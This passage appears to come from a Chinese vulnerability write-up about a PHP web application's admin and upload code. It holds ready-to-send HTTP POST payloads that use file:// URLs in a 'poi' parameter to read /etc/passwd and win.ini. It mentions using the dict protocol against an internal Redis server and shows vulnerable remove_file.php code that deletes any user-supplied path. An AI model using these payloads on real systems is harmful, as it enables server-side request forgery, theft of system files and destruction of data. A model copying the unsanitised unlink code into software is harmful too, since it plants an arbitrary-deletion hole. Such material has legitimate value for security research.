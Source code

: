 Linux读取 Payload:  
```
POST /index.php/admin/Userinfo/poihuoqu HTTP/2
Host: 127.0.0.1
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 22

poi=file:///etc/passwd
```  
Windows读取 Payload:```
POST /index.php/admin/Userinfo/poihuoqu HTTP/2
Host: 127.0.0.1
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 22

poi=file:///C:/Windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9IibqBZibeyibIENekibpHxwa7RrA0QFOf0HOCypJibESJnKVBhoic4oibvT6jibQ/640?wx_fmt=other&from=appmsg "")  
  
**Dict协议打内网Redis:**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9Iibxt90zeuv7hkIm6Xcbvo1vuOPz3dPuRXLxbMl9syMbqtmNbsgjU8RlQ/640?wx_fmt=png&from=appmsg "")  
##  0x02 前台任意文件删除  
  
**在 /static/admin/upload_file/php/remove_file.php 中存在unlink函数，且$file参数可控，导致任意文件删除，这里不多说了.**  
```
<?php 
  if(isset($_POST['file'])){
  $file = '../uploads/' . $_POST['file'];
if(file_exists($file)){
  unlink($file);
}